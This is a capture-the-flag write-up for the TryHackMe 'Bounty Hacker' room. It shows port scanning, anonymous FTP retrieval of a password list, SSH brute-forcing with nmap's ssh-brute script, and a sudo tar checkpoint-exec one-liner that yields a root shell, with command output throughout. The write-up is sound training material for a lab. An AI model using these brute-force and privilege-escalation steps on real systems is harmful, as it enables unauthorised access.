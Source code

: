 # Bounty Hacker

**Date:** 09, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/cowboyhacker) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
$ nmap -sC -sV -p- 10.10.32.142 -oN nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 14:00 IST
Nmap scan report for 10.10.32.142
Host is up (0.16s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.7.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1912.04 seconds
```

### Port 80 - Webpage

![Bounty Hacker](Images/BountyHacker-Home.png)

---

## FTP Anonymous Access

- We can find two files in `ftp` by using `anonymous` login:
    - locks.txt
    - tasks.txt

```bash
ftp 10.10.32.142
Connected to 10.10.32.142.
220 (vsFTPd 3.0.3)
Name (10.10.32.142:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (527.0338 kB/s)
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.08 secs (4.9431 kB/s)
ftp> exit
221 Goodbye.
```

---

## Who wrote the task list? 
- **Answer:** lin
- **Steps to Reproduce:** 

```bash
$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

---

## What service can you bruteforce with the text file found?
- **Answer:** ssh
- **Steps to Reproduce:**
    - Using `locks.txt`, bruteforce ssh service and check if any of that is a valid password for `lin`.

```bash
$ nmap -p 22 --script ssh-brute.nse --script-args userdb=users.txt,passdb=locks.txt 10.10.32.142
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 14:09 IST
NSE: [ssh-brute] Trying username/password pair: lin:lin
[..snip..]
Nmap scan report for 10.10.32.142
Host is up (0.16s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     lin:REDACTED - Valid credentials
|_  Statistics: Performed 21 guesses in 17 seconds, average tps: 1.2

Nmap done: 1 IP address (1 host up) scanned in 18.81 seconds
```

---

## What is the users password? 
- **Answer:** REDACTED
- By ssh bruteforce, one can find the user's password!

---

## user.txt

- Login into the `ssh` using the credentials found:

```bash
$ ssh lin@10.10.32.142
The authenticity of host '10.10.32.142 (10.10.32.142)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.32.142' (ECDSA) to the list of known hosts.
lin@10.10.32.142's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{REDACTED}
```

---

## root.txt

### Check sudo permissions

```bash
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

### Priv Esc using tar

```bash
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id   
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cd /root      
# ls
root.txt
# cat root.txt
THM{REDACTED}
```

- Yay! We rooted the room!

---